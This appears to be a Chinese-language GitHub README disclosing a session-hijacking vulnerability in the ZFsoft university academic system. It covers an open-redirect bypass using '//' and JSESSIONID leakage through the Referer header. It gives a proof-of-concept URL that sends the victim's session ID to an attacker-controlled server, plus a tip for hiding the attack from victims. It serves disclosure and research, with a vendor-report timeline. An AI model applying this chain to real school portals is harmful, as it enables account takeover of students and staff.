

# zfsoft-Hijacking-0day-PoC
正方教务系统Session Hijacking通杀0day

**仅供学习研究使用，不对任何滥用行为负责。**

- 通用漏洞，测试过多所高校。
- 状态：已被厂商接受，仅在SJTU修复

可与另一水平权限绕过漏洞组合，本文仅公开PoC。

## 任意重定向
浏览器会话期初次访问会设置JSESSIONID，认证通过后会回到上次浏览的界面，考虑如下地址: `http://x.edu.cn/1`由于不存在会被跳转到主页`http://x.edu.cn/xtgl/login_slogin.html;jsessionid=<id>`，注意这里只有浏览器会话期初次访问，也就是原来没有cookie的时候才会以这样的方式设置JSESSIONID，这时候认证通过之后就会跳转回`http://x.edu.cn/1`

登陆成功后会有302重定向

    HTTP/1.1 302 Found
    X-Powered-By: Servlet/3.0 JSP/2.2 (Apache Tomcat/7.0.92 Java/Oracle Corporation/1.8.0_201-b09)
    X-Frame-Options: SAMEORIGIN
    X-XSS-Protection: 1; mode=block
    X-Content-Type-Options: nosniff
    Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; Expires=Sun, 09-Jun-2019 15:10:06 GMT
    Location: /1
    Content-Language: zh-CN
    Content-Length: 0
    Date: Mon, 10 Jun 2019 15:10:06 GMT
    Server: ZFSOFT.Inc
    Set-Cookie: kc@x.edu.cn=<cookie>;expires=Mon, 10-Jun-2019 20:14:30 GMT;path=/

可以看到这里的`Location`就是我们开始访问的地址，既然可以控制这个我就试了下不过没有CRLF Injection :(\
然而我们还可以用`//`例如`http://x.edu.cn//www.baidu.com`绕过限制从而达到任意网址跳转

## Referer泄漏
我们已经可以控制登陆成功后的重定向地址了，JAVA会在首次访问的时候设置JSESSIONID。然而由于Java Spring默认的奇怪操作会把它的值显示在URL中比如`http://x.edu.cn/xtgl/login_slogin.html;jsessionid=<id>`，这样认证的时候HTTP头中的Referer就会泄漏掉它。\
**有些学校不使用内建的登陆系统（比如采用OAuth2），这时候有可能会在认证的时候覆盖掉Referer导致攻击失效。经测试如OAuth支持SSO，在已经登陆的前提下可能不会覆盖Referer，需要具体测试。**

## PoC
攻击条件:
- 目标系统部署在根目录（`/xtgl/`在根路径下）
- 使用内置登陆或通过SSO等
- 浏览器会话期未访问过目标网站

开一个简单的服务器(网上找的，为了更加隐蔽可以重定向到`x.edu.cn`，这样受害者就不会察觉了，我们这里为了看到效果返回200)：

    python2 server.py

目标URL: `http://x.edu.cn//<ip>:1926`\
受害者访问此URL，就会被重定向到首页（从这个时候起URL是看不出任何异常的），认证通过后会被重定向到`<ip>:1926`，我们可以从服务端的输出看到JSESSIONID。
替换一下Cookie即可登录受害者账户，可结合其他漏洞提权等等，此处不公开。

## 修复
在SJTU系统中首次发现并上报，现在URL中不会出现JSESSIONID了，攻击链切断。但是任意重定向依然没有被修复（差评），如能找到XSS或者OAuth2认证不严格的缺陷依然有可能攻击（理论上这时候攻击条件还能更弱）。

## 时间节点
- 2019-06-09 漏洞初次发现
- 2019-06-10 漏洞上报
- 2019-06-11 厂商确认，优先度高危，RANK 7/10
- 2019-06-16 测试发现SJTU系统已经修复
- 2019-06-23 漏洞公开
